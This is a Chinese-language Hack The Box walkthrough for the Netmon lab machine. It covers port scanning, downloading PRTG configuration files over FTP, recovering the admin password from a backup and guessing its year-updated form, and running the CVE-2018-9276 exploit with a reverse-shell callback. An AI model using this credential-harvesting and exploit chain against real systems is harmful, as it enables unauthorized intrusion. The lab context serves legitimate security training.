 # Netmon
- URL : https://app.hackthebox.eu/machines/Netmon
- IP : 10.129.210.193

# Recon
- Rustscan
    ```Open 10.129.210.193:21
    Open 10.129.210.193:80
    Open 10.129.210.193:135
    Open 10.129.210.193:139
    Open 10.129.210.193:445
    Open 10.129.210.193:5985
    ```
- nmap 
    - ![](https://i.imgur.com/u3hdM2g.png)
    - ![](https://i.imgur.com/T90oc8o.png)

- FTP
    - ![](https://i.imgur.com/9s6meyF.png)
    - ![](https://i.imgur.com/8q3qqmk.png)
- Web
    - appVersion':'18.1.37.13946'
    - ![](https://i.imgur.com/F8Bbaii.png)
    - https://github.com/wildkindcc/CVE-2018-9276
    - https://github.com/chcx/PRTG-Network-Monitor-RCE

## FTP
- ![](https://i.imgur.com/D82BbiD.png)
- ![](https://i.imgur.com/DXZXqWq.png)
- Try Exploit
    - https://github.com/chcx/PRTG-Network-Monitor-RCE
    - ![](https://i.imgur.com/JXCuntx.png)
    - 需要登入才能用，所以我們需要找帳密QQ
- 從官網發現 Log 跟 Config 存在 `/ProgramData/Paessler`
    - `wget -r ftp://10.129.210.193/ProgramData/Paessler`
    - 整包載下來
- `grep password */* | less`
    - 發現 `PRTG Configuration.dat` 很可疑
    - ![](https://i.imgur.com/aYorBkq.png)
- 看到相關的檔案有以下幾個
    - `PRTG Configuration.old.bak`
    - `PRTG Configuration.dat`
    - `PRTG Configuration.old`
    - `Configuration Auto-Backups/*`
- `PRTG Configuration.old.bak` 應該最可疑
    - ![](https://i.imgur.com/5ElS4Za.png)
    - 看到帳密 
        - `prtgadmin`
        - `PrTg@dmin2018`
        - 但登入失敗
- 通靈把密碼改 `2019`
    - `prtgadmin`
    - `PrTg@dmin2019`
    - 登入成功
    - ![](https://i.imgur.com/QzgPzeh.png)
## Exploit
- https://github.com/wildkindcc/CVE-2018-9276
    - `python CVE-2018-9276.py -i 10.129.210.202 -p 80 --lhost 10.10.16.35 --lport 7877 --user prtgadmin --password PrTg@dmin2019`
    - ![](https://i.imgur.com/50J42zh.png)
- 確定權限
    - ![](https://i.imgur.com/abehEpS.png)
- 取得 Flag
    - ![](https://i.imgur.com/k4rFH3h.png)

## 學到了
- FTP 記得 ls -al 避免隱藏檔案
- 密碼可以試試看猜規則 QQ
    - 年分之類的